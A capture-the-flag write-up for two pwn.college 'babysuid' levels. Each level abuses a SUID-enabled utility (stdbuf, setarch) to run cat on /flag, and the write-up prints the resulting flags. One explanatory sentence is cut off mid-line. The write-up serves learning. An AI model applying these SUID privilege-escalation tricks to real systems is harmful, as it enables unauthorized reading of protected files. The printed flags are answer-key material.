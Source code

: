 &nbsp;

## level 29

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level29:/$ /challenge/babysuid_level29 
Welcome to /challenge/babysuid_level29!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/stdbuf.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level29) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/stdbuf!
```

The `stdbuf` utility adjusts buffering options for a command.

We can use the `-oL` option to 

```
hacker@program-misuse~level29:~$ stdbuf -i0 cat /flag
pwn.college{slt066NKIqYy9YOjmwJZmI-H-Bn.0VM3EDL4ITM0EzW}
```

&nbsp;

## level 30

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level30:/$ /challenge/babysuid_level30 
Welcome to /challenge/babysuid_level30!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/setarch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level30) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/setarch!
```

The `setarch` utility sets the architecture for a command.

```
hacker@program-misuse~level30:/$ setarch -R cat /flag 
pwn.college{gGdPhvv9sM-866Xr_x9kgE1Q6Ho.0lM3EDL4ITM0EzW}
```
